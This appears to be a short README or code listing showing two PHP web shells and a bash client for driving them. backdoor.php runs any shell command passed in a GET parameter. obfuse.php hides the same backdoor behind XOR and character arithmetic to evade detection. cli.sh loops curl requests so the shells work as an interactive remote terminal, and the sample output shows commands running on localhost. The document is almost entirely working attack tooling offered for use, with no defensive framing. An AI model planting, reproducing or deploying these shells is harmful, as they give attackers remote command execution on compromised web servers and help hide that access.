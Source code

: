 $ cat backdoor.php
<?=`$_GET[0]`?>

$ cat obfuse.php
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

$ cat cli.sh
while true;do read -p "[>] halah@wibu:~$ " cmd;curl $1$cmd;done

$ bash cli.sh http://localhost:2018/backdoor.php?0=
[>] halah@wibu:~$ id
uid=10198(u0_a198) gid=10198(u0_a198) groups=10198(u0_a198),3003(inet),9997(everybody),20198(u0_a198_cache),50198(all_a198),99909997(u999_everybody)


$ bash cli.sh http://localhost:2018/obfuse.php?0=
[>] halah@wibu:~$ id
uid=10198(u0_a198) gid=10198(u0_a198) groups=10198(u0_a198),3003(inet),9997(everybody),20198(u0_a198_cache),50198(all_a198),99909997(u999_everybody)
